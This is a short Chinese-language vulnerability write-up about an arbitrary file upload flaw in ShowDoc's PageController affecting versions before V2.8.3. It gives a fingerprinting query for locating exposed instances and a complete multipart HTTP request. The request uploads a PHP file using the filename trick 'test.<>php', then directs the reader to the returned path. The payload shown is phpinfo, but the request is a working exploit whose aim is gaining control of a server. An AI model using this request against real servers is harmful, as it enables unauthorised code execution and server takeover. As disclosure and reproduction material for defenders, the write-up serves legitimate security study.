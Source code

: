 # ShowDoc PageController.class.php任意文件上传漏洞

## 漏洞描述

ShowDoc 存在任意文件上传漏洞，攻击者通过构造特殊的数据包可以上传恶意文件控制服务器

## 漏洞影响

  <a-checkbox checked>ShowDoc < V2.8.3</a-checkbox></br>

## 网络测绘

  <a-checkbox checked>app="ShowDoc"</a-checkbox></br>

## 漏洞复现

网站首页如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153125074.png)



构造如下数据包上传php文件

```plain
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Content-Length: 239
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Accept-Encoding: gzip

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php phpinfo();?>
----------------------------921378126371623762173617--
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153125267.png)



访问回显的路径

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153125177.png)



